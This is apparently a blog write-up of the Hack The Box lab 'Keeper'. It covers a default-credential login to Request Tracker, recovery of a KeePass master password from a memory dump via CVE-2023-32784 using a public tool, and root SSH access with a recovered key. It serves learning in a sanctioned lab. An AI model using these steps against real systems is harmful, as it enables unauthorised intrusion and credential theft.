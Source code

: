 ```yaml
---
layout: post
title: "Keeper - HTB"
date: 2024-02-13
---
```


# HTB Keeper Write Up
![HTB Keeper](assets/2024-02-13-keeper-htb/machine_info.png "Keeper")

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

## Investigation
Accessing the http service, it just prints a redirection message to tickets.keeper.htb/rt vhost.
![Http server no vhost](assets/2024-02-13-keeper-htb/http_server_no_vhost.png "Http server no vhost")   

### tickets.keeper.htb
Best Practical Request Tracker software. There is no public exploit to recent vulnerabilities
This service comes with default credentials
```
User: root
Pass: password
```

It is possible to log in with default credentials.
![Request tracker page](assets/2024-02-13-keeper-htb/request_tracker_page.png "Request tracker page")

Issue tracker software normally contains sensitive information. Usually on the issues but they can be useful in finding users list, information about local services, etc.
On this server, there were only two users:
![Request tracker user list](assets/2024-02-13-keeper-htb/request_tracker_user_list.png "Request tracker user list")
lnorgaard user has the password on the description
![lnorgaard password](assets/2024-02-13-keeper-htb/lnorgaard_password.png "lnorgaard password")

Checking if it's possible to log in on ssh with this user and it's possible.

### lnorgaard
RT30000.zip file on home, containing two files
```
$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Looking into the files
```
$ file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```
```
$ file passcodes.kdbx 
passcodes.kdbx: Keepass password database 2.x KDBX
```

There is a [KeePass vulnerability][CVE-2023-32784] that it is possible to retrieve passwords from a memory dump.
Using a public exploit from [vdhoney][keepass-password-dumper] it's possible to find a list with possible passwords
```
$ dotnet run ~/keeper/KeePassDumpFull.dmp
... SNIP ...
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
This means that the first character is unknown `●` and the following are possible 16-second characters appended on beginning of `dgrød med fløde`.
Using Google Translate to identify the language, to later perform a smart brute force on the character set. The language was identified as Danish.
When doing this, it was corrected to `rødgrød med fløde`. This is the correct password for passcodes.kdbx

There was a root user with both password and PuTTY SSH key pair
![Root SSH](assets/2024-02-13-keeper-htb/root_ssh.png "Root SSH")

[A PuTTY ssh key can be converted to openssh format][ssh-key-types-convert-ppk].
Following the guide to get the private key and log in as the root
```
$ ssh -i root.id_rsa root@10.10.11.227
$ id
uid=0(root) gid=0(root) groups=0(root)
```

[CVE-2023-32784]: <https://nvd.nist.gov/vuln/detail/CVE-2023-32784> "CVE-2023-32784"
[keepass-password-dumper]: <https://github.com/vdohney/keepass-password-dumper> "keepass-password-dumper"
[ssh-key-types-convert-ppk]: <https://www.baeldung.com/linux/ssh-key-types-convert-ppk> "ssh-key-types-convert-ppk"
